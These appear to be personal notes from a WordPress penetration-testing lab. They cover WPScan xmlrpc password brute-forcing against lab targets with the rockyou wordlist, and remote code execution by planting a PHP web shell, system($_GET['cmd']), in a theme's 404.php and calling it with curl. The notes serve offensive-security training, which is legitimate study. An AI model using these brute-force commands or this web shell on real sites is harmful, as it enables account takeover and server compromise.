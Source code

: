 WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: admin, roger, and david. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.

`wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com`


-----------------------
Question in this section:
Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer. 

`wpscan --password-attack xmlrpc -t 20 -U roger -P /Users/noneya/Useful/Wordlists/rockyou.txt --url "http://94.237.49.212:48820"`

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

We can see that the active theme is Transportex so an unused theme such as Twenty Seventeen should be chosen instead.

Choose a theme and click on Select. Next, choose a non-critical file such as 404.php to modify and add a web shell.

``` php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter cmd. In this example, we modified the source code of the 404.php page and added a new function called system(). This function will allow us to directly execute operating system commands by sending a GET request and appending the cmd parameter to the end of the URL after a question mark ? and specifying an operating system command. The modified URL should look like this 404.php?cmd=id.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the cURL request below.

`curl -X GET "http://94.237.49.212:48820/wp-content/themes/twentyseventeen/404.php?cmd=id"`
Works... now try
